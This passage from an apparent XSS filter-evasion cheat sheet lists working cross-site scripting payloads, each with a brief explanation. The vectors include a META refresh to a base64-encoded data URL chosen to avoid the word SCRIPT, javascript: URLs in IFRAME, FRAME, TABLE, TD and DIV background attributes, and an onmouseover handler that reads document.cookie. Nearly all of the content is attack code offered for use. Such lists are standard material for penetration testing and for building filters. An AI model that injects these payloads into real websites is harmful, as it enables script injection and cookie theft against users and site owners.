 META using Data
Directive URL scheme. This is nice because it also doesn’t have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS calculator below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

```js
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
```

META with Additional URL Parameter
If the target website attempts to see if the URL contains <http://>; at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

```js
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
```

IFRAME
If iframes are allowed there are a lot of other XSS problems as well:

```js
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

IFRAME Event Based
IFrames and most other elements can use event based mayhem like the following… (Submitted by: David Cross)

```js
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

FRAME
Frames have the same sorts of XSS problems as iframes

```js
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

TABLE

```js
<TABLE BACKGROUND="javascript:alert('XSS')">
```

TD
Just like above, TD’s are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```js
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

DIV
DIV Background-image

```js
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

